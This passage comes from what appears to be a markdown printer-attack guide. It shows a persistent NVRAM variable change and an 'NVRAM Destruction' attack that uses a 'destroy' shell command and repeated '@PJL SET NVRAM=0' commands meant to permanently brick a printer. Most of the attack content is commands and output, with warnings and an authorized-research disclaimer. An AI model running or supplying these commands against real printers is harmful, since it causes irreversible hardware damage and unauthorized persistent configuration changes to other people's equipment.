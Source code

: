 **Objective**: Persist malicious settings

```bash
# Modify NVRAM settings
> set PERSISTENT_VAR=malicious_value

# These survive reboots
> restart
> reconnect
> printenv PERSISTENT_VAR
malicious_value  # Still there!
```

**Impact**: Persistent configuration changes

---

## 💣 Physical Damage

### Attack 7.1: NVRAM Destruction

**⚠️⚠️⚠️ EXTREMELY DANGEROUS ⚠️⚠️⚠️**

**Objective**: Cause permanent hardware damage

```bash
# WARNING: May brick printer permanently!
> destroy

Warning: This command tries to cause physical damage to the
printer's NVRAM. Use with caution!

Are you sure you want to continue? (yes/no): yes

Executing destructive command...
[Printer may be permanently damaged]
```

**PJL Commands:**
```
@PJL SET NVRAM=0
@PJL SET NVRAM=0
@PJL SET NVRAM=0
... (repeated)
```

**Impact**:
- ⚠️ Permanent NVRAM damage
- ⚠️ Printer may be bricked
- ⚠️ Expensive repair/replacement
- ⚠️ Cannot be undone

**Legal Warning**: Use ONLY in authorized research!

---
